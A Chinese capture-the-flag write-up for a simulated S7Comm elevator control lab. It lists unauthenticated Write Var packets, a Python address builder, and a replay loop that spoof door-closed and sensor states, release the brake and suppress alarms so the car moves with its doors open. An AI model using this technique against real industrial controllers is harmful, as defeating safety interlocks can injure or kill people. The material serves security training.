

# NepCTF2026 赛博心情电梯 Writeup

## 题目简述

环境模拟了一套由 10 个设备组成的电梯控制系统，设备间使用 S7Comm。题目要求让电梯在门保持打开、系统没有告警的情况下移动超过一层。附件包含抓包、各设备的 Structured Text 源码和操作指引，但 MicroPython 环境没有 `os`/`ffi`，需要直接构造网络报文。

决定性攻击原语是向工业设备发送未经授权的 S7Comm Write Var 命令，属于多设备协议攻击链，因此归入 Pentest。

## 解题过程

先结合 PCAP 中的连接关系和 `device.st` 梳理控制流：



最终只需同时伪造两类状态：

1. 命令门机保持开门；
2. 欺骗 VFD“门已完全关闭”，并启用电机、释放制动器。

关键服务与数据块为：

| 设备 | 地址 | 数据块 | 作用 |
| --- | --- | ---: | --- |
| elevator_controller | `127.1.0.10:5200` | DB101 | 楼层、按钮、传感器与告警状态 |
| vfd_drive | `127.1.0.16:5260` | DB107 | 门闭合联锁、电机方向、使能和制动 |
| door_operator | `127.1.0.17:5270` | DB108 | 开关门命令、光幕与过载 |

对每个目标先建立 ISO-on-TCP/COTP 连接，再发送 S7 Setup Communication。写点位时使用 S7 Job `function = 0x05`，变量地址采用 S7ANY：

```python
def s7_any_spec(transport_size, count, db, byte_offset, bit_offset):
    bit_address = byte_offset * 8 + bit_offset
    return (
        b"\x12\x0a\x10"
        + bytes([transport_size])
        + count.to_bytes(2, "big")
        + db.to_bytes(2, "big")
        + b"\x84"                      # DB area
        + bit_address.to_bytes(3, "big")
    )
```

核心写入计划如下：

```text
DB108.4.0  bDriveEnable      = false
DB108.2.0  bDoorOpenCmd      = true
DB108.3.0  bDoorCloseCmd     = false
DB108.0.0  bLightCurtain     = false
DB108.1.0  bOverload         = false

DB107.6.0  bDoorFullyClosed  = true
DB107.2.0  bDriveEnable      = true
DB107.3.0  bMotorUp          = true
DB107.4.0  bMotorDown        = false
DB107.5.0  bBrakeRelease     = true
DB107.0.0  bLimitTop         = false
DB107.1.0  bLimitBottom      = false
```

同时持续修正 DB101，避免控制器恢复安全状态或触发告警：

```text
DB101 byte 0..4   bSensorFloor      = 伪造的当前楼层 one-hot
DB101 word 6      nCurrentFloor     = 同步楼层号
DB101 byte 10..14 bCarBtn           = 目标楼层请求
DB101.25.0        bDoorOpenBtn      = false
DB101.26.0        bDoorCloseBtn     = false
DB101.27.0        bLightCurtain     = false
DB101.28.0        bOverload         = false
DB101.29.0        bFireAlarm        = false
```

设备自己的循环逻辑会不断覆盖共享点位，所以不能只写一次。以约 250 ms 间隔向三个设备重复发送整组写入，并按照设定的每层运行时间同步更新伪楼层。持续约 13 秒即可让检测器观察到门开、VFD 运行且楼层变化超过一层。

## 方法总结

本题的关键是先建立设备角色和数据流，再最小化攻击目标。仅打开门不会移动，仅启动 VFD 又会被门联锁阻止；必须同时欺骗门机、变频器和控制器。S7Comm 没有对 Write Var 做身份认证，而 PLC 扫描周期又会回写状态，因此稳定利用依赖持续重放，而不是单次报文。
